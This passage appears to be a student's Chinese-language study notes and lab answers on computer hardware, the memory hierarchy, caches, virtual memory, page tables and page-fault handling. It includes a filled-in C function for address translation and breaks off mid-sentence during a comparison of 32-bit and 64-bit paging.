



# 阶段一
1.1
1.CPU:
本质是几十亿晶体管，几个到几十个“全能核心”，提供通用算力和控制整个系统的逻辑，擅长串行任务、分支判断、复杂逻辑（编译、办公、游戏主循环），但是核心少，干“重复劳动”效率低

GPU：
本质是上千个“简单核心”和极高带宽的显存，提供大规模并行算力，擅长图形渲染、矩阵运算、AI 训练/推理、视频编解码，但是单线程弱，不适合大量分支判断

主板：
本质是一块多层电路板和芯片组，不算力，只提供插槽、供电、通道、固件，擅长把CPU和GPU连起来并供电，但其本身不产生性能，但是能限制性能。
2.
不是一回事。手机的 12GB 运存 ≈ 电脑的 16GB 内存；手机的 512GB 存储 ≈ 电脑的 512GB 硬盘。
内存”和“主存”是同一个东西：内存是俗称，主存（main memory）是体系结构里的正式叫法，硬件实现就是 DRAM。三者关系：
内存 = 主存 = RAM = DRAM     （易失，CPU 能直接寻址访问）
存储 = 外存 = 辅存 = 硬盘/SSD/U 盘/SD 卡   （非易失，CPU 不能直接访问）
为什么必须分两层：CPU 执行指令时，只能从内存里取指令和数据。程序放在硬盘上时无法执行，必须先被操作系统“加载”到内存。

3.电源看什么
a.功率
>看 +12V 联合输出（CPU 和显卡都吃 12V），不是只看总瓦数。整机峰值功耗留 30% 余量，尤其显卡有瞬时尖峰（可达标称 2 倍）
b.认证
>80 PLUS 白牌/铜/银/金/铂金/钛金，只代表转换效率，不代表质量。要看实测：纹波、保持时间、交叉负载
c.保护电路
>OVP 过压、UVP 欠压、OCP 过流、OPP 过功率、OTP 过温、SCP 短路
d.接口
>显卡需要几个 8pin / 12V-2×6（12VHPWR）；CPU 需要 8pin（高端 8+8）；新卡建议原生 ATX 3.1 电源
e.其他
>模组化（好理线）、风扇与电容用料、质保年限（10 年 ≈ 质量自信）、尺寸（ATX/SFX，机箱限长）

4.
i7不一定比i5强
同一代、同一功耗下，i7 通常更强（核心更多、缓存更大、频率更高）。但跨代比较经常出现反转：

i5-13600K 在多核上可以超过 i7-11700K——13 代 i5 的架构更新，单核也更强；
笔记本的低压 i7 可以低于桌面 i5：i7-1255U 受 15W 功耗墙限制，多核性能明显低于 65W 的桌面 i5-12400；
同型号不同功耗释放：同样是 i7-12700H，一台 45W 的轻薄本和一台 90W 的游戏本，性能能差 30% 以上。

>型号的读法
i5 - 13600 K
│     │     └─ 后缀：K 可超频 / F 无核显 / T 低功耗 / H 标压移动 / U 低压 / HX 桌面级移动
│     └─────── SKU 编号（同代内越大越强）
└───────────── 档位：i3 < i5 < i7 < i9
        ↑
      代数：13 代（最重要的一项，通常跨代提升 > 跨档位提升）

30 系和 40 系：看具体型号，不看系列
40 系同档位普遍更强，而且能效比大幅提升。
40 系还多了 DLSS 3 帧生成（部分游戏帧数直接翻倍）和更好的光追。但注意两个陷阱：笔记本的 4060 不等于桌面的 4060（功耗从 115W 砍到 60~80W，性能只剩六七成）；显存位宽也会限制性能

性能到底怎么看
CPU ：
单核性能（决定游戏帧数、日常响应）→ Cinebench 单核、Geekbench 单核；
多核性能（决定渲染、编译、多任务）→ Cinebench 多核、R23/2024；
缓存与内存延迟（游戏尤其敏感，X3D 系列就是靠大缓存）；
功耗墙与温度（同一个 CPU 在 45W 和 90W 下是两个东西）。

GPU ：
实测帧数，尤其 1% low（最低帧，决定卡不卡）；
分辨率（1080p 吃 CPU，4K 吃显存带宽）；
显存容量 + 位宽（贴图精度、高分辨率）；
功耗与散热（决定能不能长时间跑满）。

5.
* “大牌主板”是指没型号的主板，主板没有大牌就好的常规；
* “比 i5 还多 i2 的 i7 级 CPU”Intel 从来没有 i2。“i7 级”是商圈黑话，通常指洋垃圾 Xeon E5、魔改移动版 CPU，或老掉牙的 4 代 i7。它可能核心多但单核极弱、功耗高、没有质保；
* “16G 高端内存”，16G 是容量，不是档次，可能是 DDR3 服务器条、单条单通道、2666 低频。​16G 在今天是入门容量，双通道 8G×2 都比单条 16G 快，运存大概率 8G，甚至 6G；
* “比上一代高出一半的豪华 GPU”是指没型号的显卡；
* “送你台 512G 内存的手机”，512G 闪存，不是内存运存大概率 8G，甚至 6G。可能是扩容机、翻新机、展示机。手机存储和电脑内存是两类东西，不能直接比较；
* “1.25T 超大硬盘”是非标准容量，正规颗粒只有 1TB / 2TB，1.25T 是扩容盘或白片盘的典型标记（固件改容量，实际可能只有 64G）。也可能是 QLC 或叠瓦盘，掉速严重；）
* 且只字未提电源、散热、质保。

1.2
1.
* **SRAM**的存储单元是由六个晶体管组成的双稳态触发器，易失，典型延迟有0.3~1ns，成本极高，用在CPU 的 L1/L2/L3、TLB、GPU 的 shared memory
* **DRAM**的存储单元是一个晶体管和一个电容，易失，典型延迟50~100ns，成本很低，用在主存（内存条）、显存（GDDR/HBM）
* **NAND Flash**的存储单元是浮栅晶体管，靠电荷保持数据，不易失，典型延迟为50~100us，成本很低，用在SSD、U 盘、SD 卡、手机 UFS
* **HDD**存储单元为磁性盘片和机械磁头，不易失，典型延迟为5~10ms，成本最低，用在冷数据、备份、NAS、监控

每种特性都对应一种用途：
SRAM 速度快但面积大（6 个晶体管存 1 bit），所以只能做“小而快”的缓存，容量按 MB 算；
DRAM 只用一个晶体管和一个电容，密度是 SRAM 的 6 倍以上，所以能做“大而便宜”的主存，代价是慢、需要刷新；
NAND 断电不丢数据，所以承担“存储”角色，但写入前必须先擦除整块，寿命有限（TLC 约 1000~3000 次擦写），所以 SSD 需要磨损均衡和垃圾回收；
HDD 靠机械运动定位，随机访问要等盘片转，延迟是电子的十万倍，但每 TB 成本最低，所以只适合放不常读的冷数据。
>NOR Flash，可以按字节随机读，用来放 BIOS/UEFI 固件和单片机程序

2.
寄存器位于 CPU 内部，是距离 ALU 最近的一级存储，CPU 指令的操作数基本都来自这里。它不属于“内存”，也不占用地址空间（x86 里无法用普通指针访问）。

高速缓存位于 CPU 芯片内部，是一片由 SRAM 构成的存储区域。它位于 CPU 和主存之间，存放主存中一部分数据的副本；主存中的数据按块复制过来，因此 CPU 不必等待主存。

“只读存储器”现在其实可以改写。ROM 是历史名称：早期是掩膜 ROM，出厂时写入内容，之后无法更改；现在的实现都是 NOR Flash 或 EEPROM，可以电擦写，只是平时只读、断电不丢失。它的位置很具体：

主板上有一颗 8 脚的小芯片（SPI NOR Flash），里面是 BIOS/UEFI；
显卡 PCB 上有一颗，里面是显卡的 VBIOS；
SSD 主控旁边有固件存储；
手机的 bootloader 存放在 UFS 的 boot 分区。
CPU 复位后，程序计数器被置到一个固定地址（x86 是 0xFFFFFFF0），该地址被映射到这颗 Flash。因此第一条指令一定来自 ROM，再由它把操作系统从硬盘加载进内存。

3.DRAM
结构：
1T1C，一个晶体管加一个电容，存 1 bit。

基本工作原理：
* 预充电：把位线预充到 Vdd/2，作为比较基准；
* 选行：地址译码器拉高一条字线 WL，这一行的所有晶体管同时导通；
* 电荷共享：电容（约 25 fF）与位线（约 200 fF）连通，位线电压只变化几十到一百多毫伏；
* 灵敏放大器：把这几十毫伏的微小差放大成满幅的 0/1，整行 8192 bit 同时锁存进行缓冲；
* 写回：读出时电容的电荷已经被分摊掉，数据被破坏，必须立刻按放大结果重写回去，这叫破坏性读出；
* 列选：按列地址从行缓冲里取出需要的 8/16/64 位送到引脚。

>为什么必须刷新：电容的电荷会通过 PN 结漏电、亚阈值漏电慢慢漏掉，典型保持时间只有几十毫秒。JEDEC 要求 64 ms 内把所有行刷新一遍；8192 行意味着平均每 7.8 µs 就要发一次刷新命令。刷新期间那个 bank 不能读写，会占用约 2~5% 的带宽（高温下还要刷得更勤）。
为什么明知有这些代价还要用 1T1C：一个晶体管加一个电容是最小的存储单元，密度最高、每 GB 成本最低。代价（慢、需要刷新、破坏性读出、需要精密模拟电路）全部由内存控制器承担

>连续访问同一行的不同列只需要一次“激活”，后面都命中行缓冲；而跳着访问会不停“关行、开行”，这就是顺序访问比随机访问快几倍的原因，也是后面矩阵优化的物理基础。
4.
Cache的根本原理：局部性
局部性分为两种：
* 时间局部性：刚访问过的，很可能马上再访问，如循环变量 i、累加器、循环体指令
* 空间局部性：
访问了地址 x，很可能很快访问 x+1、x+2，如数组遍历、顺序执行的指令

5.
矩阵乘法：
for (i) for (j) {
    double s = 0;
    for (k) s += A[i][k] * B[k][j];   /* ← 内层沿 B 的“列”走 */
    C[i][j] = s;
}

优化方案：
交换循环顺序，变成i-k-j，即保证访问内存是连续的

for (i) for (k) {
    double a = A[i][k];        /* 提到寄存器，复用 N 次 */
    for (j) C[i][j] += a * B[k][j];   /* B 行连续、C 行连续 */
}
>也可以进行分块计算，直接利用Cache的高速特性

# 阶段二
2.1
1.
物理地址：
内存控制器、DMA、MMU在用，范围由内存条容量决定，全机唯一，应用程序看不到
虚拟地址：
CPU执行指令和程序里的指针，范围由地址位宽决定，每个进程各有一套，互不相干，程序里所有 &x、指针值都是它

引入虚拟地址的原因：

虚拟地址 VA = [ 虚拟页号 VPN | 页内偏移 12 位 ]
                    ↓ 查页表（MMU 硬件自动完成）
物理地址 PA = [ 物理帧号 PFN | 页内偏移 12 位 ]   ← 偏移不变

地址可以被翻译，物理内存就不用迁就程序的写法
好处
① 隔离与保护（最重要）​
每个进程有自己独立的页表，A 的虚拟地址在 B 的页表里根本没有映射。效果：

野指针越界 → 触发缺页异常 → 进程收到 SIGSEGV 直接崩溃，而不是悄悄改坏别人的数据或操作系统；
页表项带权限位：代码页可设为“只读 + 可执行”，数据页设为“不可执行”，于是缓冲区溢出注入的代码一执行就报错（NX 位）；
用户态无法访问内核页（页表项有 U/S 位）。

没有虚拟内存的话，两个程序任何一处指针错误都可能让整机崩溃。
② 容量扩展：程序可以比物理内存大
按需分页（demand paging）：进程启动时并不加载全部代码数据，访问到哪一页才装入哪一页；内存紧张时，把不常用的页写到磁盘（swap），需要时再换回来。
于是你可以在 8 GB 内存的机器上开一个占用 12 GB 的程序——慢，但能跑。附带的好处是启动快：一个 500 MB 的程序，可能只先加载几十 MB 就能显示出界面。
③ 简化抽象：每个进程都以为自己独占整台机器

每个进程的地址空间都从 0 开始、连续、独立，链接器不用关心物理内存此刻的布局；
堆向上增长、栈向下增长，中间留出巨大的空洞——这在物理内存里根本做不到，但虚拟空间里毫无成本（未分配的页不占任何物理内存）；
编译器、加载器、内存分配器的实现都因此简单了一个数量级。

④ 共享与效率

多个进程运行同一个程序时，libc.so 的代码页在物理内存里只有一份，各自页表指向同一帧；
fork() 用写时复制（COW）​：父子进程先共享所有页并标记只读，谁写谁才复制，创建进程几乎零成本；
mmap 把文件直接映射进地址空间，读写文件变成访存，不用 read/write 拷贝。

⑤ 附加收益：物理内存管理变灵活
物理帧不需要连续，外部碎片问题消失；操作系统还能在不改动程序的前提下把页搬到别处（改页表即可），顺带支持了 ASLR（地址空间随机化，让攻击者猜不到函数地址）。
2.
虚拟地址空间的特性与大小
特性：
私有性：
每个进程一份独立的页表，A 的地址在 B 里根本不存在，互相看不见、改不了
独立性：
每个进程都从 0 开始编号，两个程序可以把变量放在同一个虚拟地址，互不冲突
连续性：
对进程来说是一整块连续空间（0 到 4 GB），与物理内存实际怎么摆无关
按需分配：
4 GB 只是“可寻址范围”，只有真正访问到的页才分配物理帧，未映射区域访问会触发缺页/段错误

大小：
2³² 字节 = 4 GiB（4,294,967,296 字节）​，地址范围 0x00000000 ~ 0xFFFFFFFF。
这个 4 GB 是地址空间的容量，不是内存条的容量；进程实际占用的物理内存可能只有几 MB。
虚拟地址空间按页（page）​划分，一页 4 KB = 4096 字节 = 2¹² 字节
虚拟地址空间中的页可以被划分到代码段，数据段，堆和栈中。

**页**：
属于虚拟地址空间，本质是逻辑上的固定大小块，编号为虚拟页号VPN，数量由地址空间大小决定，是分配、映射、保护的最小单位

**页框**：
属于物理内存，本质是真实存在的存储槽位，编号为物理帧号PFN，数量由内存条容量决定，是是装载页的容器，真正存数据的地方。

它们的作用：操作系统以页为单位管理内存；页表把“虚拟页号”翻译成“物理帧号”；进程访问某个虚拟页时，MMU 查表找到对应页框，实际读写的是那个页框。如果该页不在内存里（存在位为 0），就触发缺页异常，由操作系统分配一个空闲页框、把数据从磁盘读进来，再更新页表

共同点：

大小完全相同，都是 4 KB；
都按 4 KB 边界对齐，编号连续；
都是内存分配与映射的最小单位，不能只映射半个页；
页和页框是一一映射的关系（一个页最多占一个页框，一个页框同一时刻只装一个页）。

2.2
1.
页是地址空间的划分单位（一块 4 KB 的数据）；页表是记录“哪个虚拟页放在哪个物理页框”的映射表。一个是数据，一个是元数据
页表是由页表项 PTE 组成的数组（或多级树），真实存放在物理内存里，由操作系统建立/修改，MMU 读取

页表不只是“地址对照表”，它同时承担了权限控制和状态记录（是否在内存、是否被写过）的职责。

MMU是CPU 里的硬件翻译电路，它执行整个地址翻译流程，并检查权限；
TLB是MMU 旁边的一张小型翻译缓存，它是缓存最近的“虚拟页号 → 物理帧号”结果

页表存放在物理内存中（属于内核管理的内存区域），不在 CPU 里；每个进程有自己的一整套页表，内核部分的映射通常所有进程共享。

x86 / x86-64寄存器是CR3（PDBR，页目录基址寄存器）
ARM寄存器是TTBR0 / TTBR1；
RISC-V寄存器是satp

二级页表
就是把单级页表中的“20 位页号”再拆成两段：10 位页目录索引 + 10 位页表索引。
翻译过程就是：
1.从 CR3 找到页目录的物理基址；
2.用虚拟地址的 10 位页目录索引 取出 PDE；
3.若 PDE 存在，用其中的物理基址找到对应页表；
4.用 10 位页表索引 取出 PTE；
5.若 PTE 存在，用其中的物理帧号 × 4KB + 12 位偏移 = 物理地址

二级页表相比单级页表的优势：
按需分配，节省内存；不需要连续的大块物理内存；支持稀疏的虚拟地址空间；便于共享和按需分页。
二级页表中，一个 PDE 无效，就代表整段 4MB 虚拟空间没有映射，连页表都不用建。这是“稀疏”能省内存的根本原因。

CR3 里存的是物理地址，不是虚拟地址。​ 否则翻译页表本身又需要翻译页表，陷入无限递归。MMU 拿到物理地址后直接走内存总线；
进程切换时，操作系统把新进程的页表基址写进 CR3，这就是“每个进程有独立地址空间”的物理实现。切换后旧 TLB 项失效（现代 CPU 用 PCID/ASID 打标签，避免全部刷新）。

32 位二级页表下虚拟地址的三个部分
* 31 ~ 22
位数为10位，含义是在页目录中定位第几个 PDE（0~1023）
* 21 ~ 12
位数为10位，含义是在二级页表中定位第几个 PTE（0~1023）
* 11 ~ 0
位数为12位，含义是页内第几个字节（0~4095），翻译时保持不变
2.
void translate_address(uint32_t virtual_address, bool is_write_access) {
    printf("----------------------------------------\n");
    printf("Translating Virtual Address: 0x%08X (%s access)\n",
           virtual_address, is_write_access ? "WRITE" : "READ");

    // --- 步骤1: 从虚拟地址中提取索引和偏移 ---
    uint32_t page_dir_index;
    uint32_t page_table_index;
    uint32_t offset;

    // TO DO:
    page_dir_index   = (virtual_address >> 22) & 0x3FF; // 高 10 位
    page_table_index = (virtual_address >> 12) & 0x3FF; // 中间 10 位
    offset           = virtual_address & 0xFFF;         // 低 12 位
    // END OF TO DO：

    printf(" -> Page Dir Index: %u (0x%X)\n", page_dir_index, page_dir_index);
    printf(" -> Page Table Index: %u (0x%X)\n", page_table_index, page_table_index);
    printf(" -> Offset: %u (0x%X)\n", offset, offset);

    // --- 步骤2: 查询页目录表 ---
    // TO DO:
    printf("  [*] Checking Page Directory Entry %u...\n", page_dir_index);
    PDE *pde = &page_directory[page_dir_index];
    if (!pde->present_bit) {
        printf("  [!] FAULT: Page Directory Entry not present. (Segmentation Fault)\n");
        return;
    }
    printf("      -> PDE is present. Page table base address: %p\n",
           (void *)pde->page_table_base);
    // END OF TO DO：

    // --- 步骤3: 查询页表 ---
    // TO DO:
    printf("  [*] Checking Page Table Entry %u...\n", page_table_index);
    PTE *pte = &pde->page_table_base[page_table_index];
    if (!pte->present_bit) {
        printf("  [!] FAULT: Page Table Entry not present. (Page Fault)\n");
        return;
    }
    printf("      -> PTE is present. Frame number: %u (0x%X)\n",
           pte->frame_number, pte->frame_number);
    // END OF TO DO：

    // --- 步骤4: 检查访问权限 ---
    // TO DO:
    // 注意：样例要求先打印 "[*] Checking access permissions..." 再报错，
    // 所以这里只算出“是否越权”，真正的打印放在下面那行日志之后。
    bool protection_fault = is_write_access && !pte->rw_bit;
    // END OF TO DO：
    printf("  [*] Checking access permissions...\n");

    if (protection_fault) {
        printf("  [!] FAULT: Write attempt on a read-only page. (Protection Fault)\n");
        return;
    }
    printf("      -> Access granted.\n");

    // --- 步骤5: 计算最终的物理地址 ---
    // TO DO:
    uint32_t physical_address = (pte->frame_number << OFFSET_BITS) | offset;
    // END OF TO DO：

    printf("  [SUCCESS] Translation complete.\n");
    printf("  Virtual Address 0x%08X  =>  Physical Address 0x%08X\n",
           virtual_address, physical_address);
}
2.3
与内存组织相关的寄存器：
1. CPU 与内存之间的接口寄存器（计算机组成原理层面）
MAR
作用：存放要访问的存储单元地址，经地址总线送到存储器。MAR 的位数决定 CPU 能寻址的最大空间
MDR
作用：存放从存储器读出的数据或要写入的数据，经数据总线传输。位数通常等于存储字长
一次读内存的硬件动作就是：
MAR ← 地址
发读信号
MDR ← 存储器送来的数据

2. 地址转换与保护寄存器（操作系统层面）
基址寄存器 / 重定位寄存器
作用：进程在物理内存中的起始地址。物理地址 = 逻辑地址 + 基址
界限寄存器 / 限长寄存器
作用：进程的长度。访问地址 ≥ 界限时触发越界异常，用于保护
PTBR
作用：顶级页表的物理基地址。x86 上就是 CR3
CR3
x86 的页目录基址寄存器（PDBR）。进程切换时改写 CR3 = 切换地址空间，同时导致 TLB 失效
CR2
x86 发生缺页时，硬件把出错的线性地址存进 CR2，供内核判断是哪个地址出错
TLB
作用：页表项的高速缓存（不是程序员可见寄存器，但属于 MMU 的地址转换硬件）。命中时无需查页表

3. 段式管理寄存器（x86）

CS / DS / SS / ES / FS / GS	
作用：段选择子；其“隐藏部分”保存段的基址、界限、属性
GDTR	
作用：全局描述符表基址与界限
LDTR	
作用：局部描述符表
IDTR	
作用：中断描述符表
TR	
作用：任务寄存器

4. 控制与状态寄存器

CR0	
作用：控制位：PE（保护模式）、PG（分页开启）、WP（写保护）等
CR4	
作用：PAE、PSE、PGE、SMEP、SMAP、LA57（5 级页表）等
RIP / EIP	
作用：下一条指令地址（取指也走内存）
RSP / ESP	
作用：栈顶指针
EFLAGS
作用：方向标志 DF 等，影响字符串操作方向

>MAR/MDR 负责“怎么和内存说话”，基址/界限寄存器负责“连续分配时的保护”，PTBR/CR3 负责“页表在哪”，CR2 负责“缺页出在哪”，TLB 负责“加速翻译”

┌──────────────────────────────┐
│ CPU 执行 load 指令             │
│ 计算虚拟地址 VA                │
└───────────────┬──────────────┘
                ▼
       ┌──────────────────┐
       │ MMU 查 TLB       │
       └────────┬─────────┘
        命中 │            │ 未命中
             │            ▼
             │   ┌──────────────────┐
             │   │ 页表遍历          │
             │   │ CR3→PDE→PTE      │
             │   └────────┬─────────┘
             │            │
             │   ┌────────▼─────────┐
             │   │ PTE 有效? 权限?  │
             │   └────────┬─────────┘
             │      否 │        │ 是
             │         ▼        │
             │   ┌──────────┐   │
             │   │ #PF 缺页 │   │
             │   │ → OS 处理│   │
             │   └──────────┘   │
             ▼                  ▼
       ┌──────────────────────────┐
       │ PA = (帧号 << 12) | 偏移 │
       └────────────┬─────────────┘
                    ▼
       ┌──────────────────┐  命中   ┌────────────────┐
       │ 查 Cache (L1/L2/L3)│───────►│ 数据送 CPU 寄存器│
       └────────┬─────────┘         └────────────────┘
                │ 未命中
                ▼
       ┌──────────────────┐
       │ MAR ← PA          │
       │ 地址总线送出       │
       │ 控制总线发读信号   │
       └────────┬─────────┘
                ▼
       ┌──────────────────┐
       │ 内存控制器 → DRAM │
       │ 行激活→列选→读出   │
       └────────┬─────────┘
                ▼
       ┌──────────────────┐
       │ MDR ← 数据        │
       │ 填入 Cache 行      │
       └────────┬─────────┘
                ▼
       ┌──────────────────┐
       │ 数据送 CPU 寄存器  │
       │ 指令完成           │
       └──────────────────┘

分步说明
* 生成虚拟地址：指令中的段基址 + 偏移，或 base + index*scale + disp，得到线性/虚拟地址。
* MMU 翻译：先查 TLB；未命中则按 CR3 逐级查页表（32 位两级，64 位四级/五级），检查存在位、读写位、用户/内核位、NX 位。
* 缺页：PTE 无效或权限不符 → 触发 #PF，CPU 保存现场，跳到内核缺页处理程序；处理完重新执行这条指令。
* 得到物理地址：PA = 物理帧号 × 4096 + 页内偏移。
* 查 Cache：L1 → L2 → L3；命中直接把数据送给寄存器，不访问 DRAM。
* 访问 DRAM：
CPU 把 PA 写入 MAR，通过地址总线送出；
控制总线发出读命令；
内存控制器选中对应 bank，行激活（RAS）→ 列选（CAS）→ 读出；
数据经数据总线进入 MDR；
同时把整个 cache line（通常 64 字节）填入 Cache。
* 完成：数据写入目标寄存器，指令退休。
* 关键点：虚拟地址翻译发生在 Cache 之前（现代 CPU 用 VIPT 让二者部分并行），所以“读内存”从来不是一步，而是“翻译 → 查缓存 → 访问 DRAM”三步。

进程 read(fd, buf, n)         或   缺页异常
        │                              │
        ▼                              ▼
   ┌──────────┐                 ┌──────────────┐
   │ 系统调用  │                 │ 缺页处理程序  │
   └────┬─────┘                 └──────┬───────┘
        ▼                              │
   ┌───────────────────────────────────┴──┐
   │ VFS → 文件系统 → inode → 逻辑块号     │
   │ → 物理块号 (LBA)                      │
   └───────────────┬──────────────────────┘
                   ▼
          ┌─────────────────┐
          │ Page Cache 命中? │──是──► 拷贝到用户缓冲区 / 建立映射 → 返回
          └────────┬────────┘
                   │否
                   ▼
          ┌─────────────────┐
          │ 预读 + 块层调度  │
          │ 合并、排序请求   │
          └────────┬────────┘
                   ▼
          ┌─────────────────┐
          │ 设备驱动         │
          │ 配置 DMA 描述符  │
          │ 写控制器寄存器   │
          │ (命令、LBA、地址)│
          └────────┬────────┘
                   ▼
          ┌─────────────────┐
          │ 磁盘控制器执行   │
          │ HDD: 寻道+旋转   │
          │ SSD: FTL+闪存读  │
          └────────┬────────┘
                   ▼
          ┌─────────────────┐
          │ DMA 直接写内存   │
          │ (页缓存/用户缓冲)│
          └────────┬────────┘
                   ▼
          ┌─────────────────┐
          │ 完成中断 (MSI-X) │
          │ 驱动 ISR/软中断  │
          └────────┬────────┘
                   ▼
          ┌─────────────────┐
          │ 唤醒进程         │
          │ 更新页表/TLB     │
          │ 重新执行指令     │
          └─────────────────┘

分步说明

* 发起请求：read() 陷入内核；或进程访问未映射页触发缺页。
* 文件系统定位：VFS 根据文件描述符找到 inode，把文件偏移换算成逻辑块号，再由文件系统映射到磁盘物理块（LBA）。
* 查页缓存：如果数据已在 page cache，直接拷贝给用户，完全不碰磁盘（缓存命中）。
* 块层调度：未命中时生成 bio 请求，I/O 调度器合并相邻请求、排序以减少寻道（HDD）或提高并行（SSD）。
* 驱动下发：驱动程序把命令、LBA、扇区数、DMA 目标地址写入设备寄存器（NVMe 写提交队列门铃；SATA 写命令表）。
* 设备执行：HDD 需要寻道 + 旋转延迟；SSD 经过 FTL 地址映射、NAND 读取、ECC 校验。
* DMA 传输：控制器直接把数据写入内存，不经过 CPU，减少开销。
* 完成中断：设备发中断，驱动处理，唤醒等待的进程。
* 缺页路径的收尾：填写 PTE（present=1、帧号、权限），刷新 TLB，返回用户态重新执行刚才那条指令。

缺页异常:当 CPU 访问一个虚拟地址，MMU 查页表时发现：

PTE 的 present 位 = 0（页不在物理内存），或
权限不符（写只读页、用户访问内核页），或
保留位非法
MMU 无法完成翻译，就触发 #PF 异常。CPU 保存现场，跳到内核的缺页处理程序；x86 还会把出错地址写入 CR2。

缺页的分类：
硬缺页，软缺页，非法访问，保护性

不同缺页的处理方式

按需调页（首次访问）	分配物理帧，从文件/swap 读入，填 PTE，重试
Minor（页已在内存）	直接建立页表映射，不读磁盘
COW（写时复制）	分配新帧，复制旧页内容，PTE 改为可写；父子进程各自独立
零页（匿名页首次读）	映射到内核共享的零页，只读；写时再触发 COW
栈增长	访问栈下方 guard 区时，扩展栈 VMA，分配新页
非法地址	不属于任何 VMA → SIGSEGV
权限违规	写只读页且非 COW → SIGSEGV；用户访问内核页 → SIGSEGV
缺页且无空闲帧	先做页面替换，再按上述流程处理

页面替换：
当缺页发生、但物理内存没有空闲帧时，操作系统必须选一个已在内存的页（牺牲页/victim）换出，腾出帧给新页。这个“选谁换出”的过程就是页面替换。

缺页 + 无空闲帧
   │
   ▼
按算法选择一个牺牲页
   │
   ▼
牺牲页被修改过（dirty）?
   ├─ 是 → 写回磁盘（swap 或文件）
   └─ 否 → 直接丢弃
   │
   ▼
更新牺牲页 PTE（present=0，记录磁盘位置）
TLB 失效（多核需 shootdown）
   │
   ▼
把空闲帧分配给新页
   │
   ▼
从磁盘读入新页（major fault）
   │
   ▼
更新新页 PTE（present=1）
   │
   ▼
重新执行触发缺页的指令

硬件在 PTE 里提供了两个关键位：

Accessed（A/Reference）	该页最近被访问过（判断“冷不冷”）
Dirty（D/Modified）	该页被写过	（决定换出时是否要写回磁盘）
操作系统结合这两个位和各种算法来选牺牲页。

怎么选牺牲页	
优先“最近未访问、干净、非共享、非锁定”的页；Linux 用 active/inactive LRU + kswapd

64 位与 32 位系统在虚拟内存与页表管理上的主要区别

一、虚拟地址空间
32 位：虚拟地址 32 位，空间 4GB。Linux 通常划分为 3GB 用户空间 + 1GB 内核空间；
Windows 通常为 2GB 用户 + 2GB 内核（可用 /3GB 调整为 3GB + 1GB）。
64 位：x86-64 四级页表使用 48 位虚拟地址，空间 256TB，用户态与内核态各 128TB；
开启五级页表（LA57）后为 57 位，空间 128PB。地址还必须满足规范地址（canonical）
要求，即高 16 位必须等于第 47 位的符号扩展，否则触发通用保护异常。

二、页表级数与索引划分
32 位：二级页表，10 位页目录索引 + 10 位页表索引 + 12 位页内偏移。
32 位 PAE：三级页表，2 位 PDPT 索引 + 9 位页目录 + 9 位页表 + 12 位偏移，
支持 36 位物理地址。
64 位：四级页表，9 位 PML4 + 9 位 PDPT + 9 位 PD + 9 位 PT + 12 位偏移；
开启 LA57 后增加一级 PML5，变为五级。

三、页表项大小与每级覆盖范围
32 位：页表项 4 字节，每张表 1024 项，正好 4KB；
每张页表覆盖 4MB，页目录覆盖 4GB。
64 位：页表项 8 字节，每张表 512 项，正好 4KB；
每张页表覆盖 2MB，页目录覆盖 1GB，PDPT 覆盖 512GB，PML4 覆盖 256TB。

四、页表内存开销
由于 64 位页表项翻倍、每级覆盖范围减半，同样映射量下 64 位页表占用的内存约为
32 位的 2 倍。例如映射 1GB：
